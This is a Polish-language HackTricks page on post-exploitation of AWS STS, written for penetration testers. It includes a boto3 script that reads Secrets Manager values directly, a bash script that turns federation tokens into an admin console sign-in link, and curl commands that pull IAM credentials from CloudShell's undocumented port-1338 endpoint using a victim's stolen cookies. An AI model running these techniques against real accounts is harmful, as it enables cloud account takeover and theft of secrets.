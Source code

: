 # AWS - STS Post Exploitation

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## STS

Aby uzyskać więcej informacji:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

#### Nowa metoda grudzień 2024: Ominięcie wymogu linku do konsoli internetowej, poprzez bezpośrednie uzyskanie sekretów za pomocą żądania HTTPS POST do API SecretsManager (bez linku logowania ani konsoli internetowej)

Złożono wczoraj, jako PR do nadchodzącego egzaminu (ARTE: ex16x41), jednak widzę, że PR się nie wyświetla, może został złożony błędnie, spróbujmy ponownie:
Używając tej metody, całkowicie omijasz wymóg otwierania jakichkolwiek adresów URL, formatowania jakichkolwiek linków logowania lub nawet korzystania z CLI / konsoli internetowej.
Co więc zrobiliśmy tutaj?
Napisałem ten skrypt, który bezpośrednio współdziała z API AWS Secrets Manager, jest to absolutnie proste i bezpośrednie.
Kiedy uruchomisz skrypt, wysyła on żądanie HTTPS POST do punktu końcowego AWS Secrets Manager
https://secretsmanager.<region>.amazonaws.com/
Żądanie GetSecretValue jest wysyłane jako część żądania POST, uwierzytelnione podpisem SigV4 (zarządzanym przez boto3).
Secrets Manager przetwarza żądanie:
AWS weryfikuje żądanie w odniesieniu do polityk IAM przypisanych do twojego użytkownika lub roli (jak wiemy, możemy zobaczyć wartość sekretu tylko jako konsolę internetową)
Jeśli jest to dozwolone, usługa Secrets Manager zwraca żądaną wartość sekretu w odpowiedzi.
**POC Demo:**
Polecenie CLI AWS do uzyskania wartości sekretu nie działa, ponieważ dostęp został odmówiony ->
Jednak na obrazie możesz zobaczyć prostotę metody, aby po prostu wyodrębnić flagę bezpośrednio, znając identyfikator sekretu (to enumerujemy na wcześniejszym etapie, gdy zalogowaliśmy się z profilem użytkownika)
![image](https://github.com/user-attachments/assets/d05a1a96-04c0-4404-b4bd-dbfa93c6494b)
Uwaga: Myślę, że ta metoda może być używana uniwersalnie w zależności od scenariusza, jeśli polityka na to pozwala (ale omija ograniczenia polityki, która nie pozwala przez CLI)
Można to wykorzystać w dowolnym momencie, gdy polityka na to pozwala (jako alternatywna opcja testowa)
Dodatkowa uwaga: ciekawy jestem innych technik, które można zastosować, używając tej samej metody bezpośredniej interakcji z API usługi, a teraz AWS CLI, w każdym procesie podnoszenia uprawnień lub po eksploatacji, jak tutaj.
**Kod:**
'''
Python
import boto3

session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Ustaw niestandardowy User-Agent
client.meta.events.register(
'before-call.secretsmanager.GetSecretValue',
lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'})
)

# Pobierz wartość sekretu bezpośrednio przez API secretsmanager
response = client.get_secret_value(SecretId="flag_sts_lab_3")
print(response['SecretString'])
'''

### Od poświadczeń IAM do konsoli

Jeśli udało ci się uzyskać jakieś poświadczenia IAM, możesz być zainteresowany **dostępem do konsoli internetowej** za pomocą następujących narzędzi.\
Zauważ, że użytkownik/rola musi mieć uprawnienie **`sts:GetFederationToken`**.

#### Niestandardowy skrypt

Następujący skrypt użyje domyślnego profilu i domyślnej lokalizacji AWS (nie rządowej i nie chińskiej), aby dać ci podpisany URL, którego możesz użyć do zalogowania się do konsoli internetowej:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)



# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

Możesz **wygenerować link do konsoli webowej** za pomocą [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
{% hint style="warning" %}
Upewnij się, że użytkownik IAM ma uprawnienia `sts:GetFederationToken`, lub zapewnij rolę do przyjęcia.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) to narzędzie do bezpiecznego przechowywania i uzyskiwania dostępu do poświadczeń AWS w środowisku deweloperskim.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
{% hint style="info" %}
Możesz również użyć **aws-vault**, aby uzyskać **sesję konsoli przeglądarki**
{% endhint %}

#### Z konsoli do poświadczeń IAM

[**Oryginalnie odkryte w tym poście**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), Jeśli uda ci się skompromitować dostęp do konsoli internetowej (może ukradłeś ciasteczka i nie mogłeś uzyskać dostępu do folderu .aws), możesz uzyskać poświadczenia tokena IAM dla tego użytkownika za pomocą **CloudShell**.

CloudShell udostępnia poświadczenia IAM przez **nieudokumentowany punkt końcowy na porcie 1338**. Po załadowaniu ciasteczek sesji ofiary do swojej przeglądarki, możesz przejść do CloudShell i wydać następujące polecenia, aby uzyskać poświadczenia IAM.
```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
